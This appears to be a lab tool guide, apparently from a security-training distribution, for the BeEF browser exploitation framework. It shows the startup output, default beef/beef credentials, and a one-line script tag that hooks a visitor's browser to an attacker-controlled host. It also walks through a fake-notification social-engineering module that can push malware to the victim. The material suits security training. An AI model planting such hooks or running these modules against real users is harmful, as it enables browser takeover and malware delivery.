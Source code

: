 
BeEF
============

Website
-------

<https://beefproject.com>

Description
-----------

BeEF, The Browser Exploitation Framework Project is a tool for the pwnage of one of the
underexplored frontiers in information security, the web browser.

Install Location
----------------

`/opt/beef`

Usage
-----

BeEF uses javascript to "hook" one or more browsers before attempting to leverage its access for
further exploitation.

Video Walkthrough
-----------------

<iframe src="https://onedrive.live.com/embed?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155680&authkey=ABFf2c6CSDAMzFQ" width="320" height="180" frameborder="0" scrolling="no" allowfullscreen sandbox="allow-scripts allow-pointer-lock allow-forms allow-same-origin"></iframe>

Example 1: Hooking a Web Browser
--------------------------------

First change into the BeEF install directory:

`~$` **`cd /opt/beef`**

Next launch BeEF like so:

`/opt/beef$` **`sudo ./beef`**

        [14:00:53][*] Bind socket [imapeudora1] listening on [0.0.0.0:2000].
        [14:00:53][*] Browser Exploitation Framework (BeEF) 0.4.4.9-alpha
        [14:00:53]    |   Twit: @beefproject
        [14:00:53]    |   Site: http://beefproject.com
        [14:00:53]    |   Blog: http://blog.beefproject.com
        [14:00:53]    |_  Wiki: https://github.com/beefproject/beef/wiki
        [14:00:53][*] Project Creator: Wade Alcorn (@WadeAlcorn)
        [14:00:54][*] BeEF is loading. Wait a few seconds...
        [14:01:14][*] 10 extensions enabled.
        [14:01:14][*] 191 modules enabled.
        [14:01:14][*] 2 network interfaces were detected.
        [14:01:14][+] running on network interface: 127.0.0.1
        [14:01:14]    |   Hook URL: http://127.0.0.1:3000/hook.js
        [14:01:14]    |_  UI URL:   http://127.0.0.1:3000/ui/panel
        [14:01:14][+] running on network interface: 192.168.1.109
        [14:01:14]    |   Hook URL: http://192.168.1.109:3000/hook.js
        [14:01:14]    |_  UI URL:   http://192.168.1.109:3000/ui/panel
        [14:01:14][*] RESTful API key: 4bfb70558017e0a2362021864acd445f0d51882d
        [14:01:14][*] HTTP Proxy: http://127.0.0.1:6789
        [14:01:14][*] BeEF server started (press control+c to stop)

Now that we have BeEF listening for connections let's embed the javascript hook in a page and get
our target to browse to it.

All you need to do to embed the javascript hook on any page is to insert a single line of html
like this:

`<script src='http://192.168.1.109:3000/hook.js'></script>`

So if you have an html page that you would like to embed into, feel free.

However, we have already created a page which performs dynamic embedding of the BeEF hook.


This page is located at: /var/www/adhd/beef/hook.php



Open up a new Firefox instance by either running this command:

`~$` **`firefox & `**

Or by navigating `Launch Menu > Internet > Firefox Web Browser`

![](Beef_files/Image_001.png)

Once you have Firefox running let's visit the target page and get our browser hooked.

Load up [http://127.0.0.1/beef/hook.php](http://127.0.0.1/beef/hook.php)

![](Beef_files/Image_002.png)

You shouldn't see anything more than a default, blank, boring page.

Now open up a new tab and navigate to the BeEF UI.  This can be accomplished by either
directly accessing the url [http://127.0.0.1:3000/ui/panel](http://127.0.0.1:3000/ui/panel)
or by visiting [http://127.0.0.1](http://127.0.0.1) and clicking the link **BeEF (Console)**.

![](Beef_files/Image_003.PNG)

Authenticate:

    Username:    beef
    Password:    beef

After authentication you should be able to see your hooked browser on the left hand side
under "Online Browsers"

![](Beef_files/Image_004.PNG)

And that's it, you have successfully hooked a web browser.

The browser will remain hooked as long as the tab it has open to your page remains as such.

To see some example of what we can do with a hooked browser, continue on to
[Example 2: Browser Based Exploitation With BeEF].

Example 2: Browser Based Exploitation With BeEF
-----------------------------------------------

Assuming you already have a hooked web browser, let's take a look at some things you can do with it.

Open the BeEF console by either navigating directly to [http://127.0.0.1/ui/panel](http://127.0.0.1/ui/panel)
or visiting [http://127.0.0.1](http://127.0.0.1) and clicking the link **BeEF (Console)**.

![](Beef_files/Image_004.PNG)

To get started click on your hooked web browser.  This should bring up details about your selected
browser in the multi-tabbed menu on the right of the console.

![](Beef_files/Image_005.PNG)

These details can help you tailor attacks to your victim's browser.

Let's run a few commands.  Select the commands tab.

![](Beef_files/Image_006.PNG)

Now expand the module tree

Select `Social Engineering > Fake Notification Bar (Firefox)`

![](Beef_files/Image_007.png)

This should open up a menu on the right.  Leave all the options default and click `Execute`

![](Beef_files/Image_008.PNG)

After a few seconds, the hooked browser should see something similar to this.

![](Beef_files/Image_009.png)

If they install the plugin, they are pwned.
It should be noted that this method can be used to deliver anything, not just the default
"malicious plugin."  This could easily be leverage to install fully fledged malware on the system,
simply by updating the module options before execution.

There are tons of other modules available in BeEF, don't stop here. Get exploring.

